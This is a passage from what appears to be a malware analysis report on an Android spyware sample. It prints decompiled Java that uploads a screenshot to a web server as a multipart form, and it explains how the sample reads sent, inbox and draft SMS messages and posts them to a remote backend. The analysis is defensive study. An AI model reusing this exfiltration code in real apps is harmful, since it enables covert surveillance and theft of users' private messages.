 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=screenshotupload,caption=The function \textit{naqsl.ebxcb.exu.Cint.fddo()} sends the screenshot to a Web server.,frame=tb]
        sb5.append("Content-Disposition: form-data; name=\"serverID\"");
        sb5.append(str4);
        dataOutputStream.writeBytes(sb5.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(str2.getBytes());
        dataOutputStream.writeBytes(str4);
        StringBuilder sb6 = new StringBuilder();
        sb6.append(str5);
        sb6.append(str6);
        sb6.append(str5);
        sb6.append(str4);
        dataOutputStream.writeBytes(sb6.toString());
        StringBuilder sb7 = new StringBuilder();
        sb7.append(str5);
        sb7.append(str6);
        sb7.append(str4);
        dataOutputStream.writeBytes(sb7.toString());
        StringBuilder sb8 = new StringBuilder();
        sb8.append("Content-Disposition: form-data; name=\"");
        sb8.append(str3);
        sb8.append("\";filename=\"");
        sb8.append(str);
        sb8.append("\"");
        sb8.append(str4);
        dataOutputStream.writeBytes(sb8.toString());
        dataOutputStream.writeBytes(str4);
        dataOutputStream.write(bArr);
\end{lstlisting}

\newpage
\subsubsection{SMS STEALING} \label{smsstealing}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS} implements the database interaction to read SMS messages from. The function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate} defines what database tables to select for perform the queries (see Table XX) and calls the function \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo}.

\begin{description}
\item[sms/sent]
\item[sms/inbox]
\item[sms/draft]
\end{description}
\begin{center}
Table XX: Tables of SMS message to be fetched from database.
\end{center}

The \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.fddo} function performs the database retrieves a \textit{ContentResolver} and performs the query. It iterates through all entries and adds them using a hardcoded pattern to a string. This string will be returned to the \textit{naqsl.ebxcb.exu.Activity.ActivityGetSMS.onCreate}  function. Here the function \textit{naqsl.ebxcb.exu.int.fddo(Context context, String str, String str2)} will be called in order to send the results to a Web server. The second argument is a hardcoded string "4" and the third argument are the SMS messages. Depending on the second argument the target url will be created (see Listing XX). Next is to gather the \textbf{url} tag from \textit{SharedPreferences} (see chapter: \ref{datastructure}) and execute the \textit{android.os.AsyncTask.Cint\$fddo} task wich is transfer the data to the web backend using the ( 	java.net.HttpURLConnection).
\end{document}
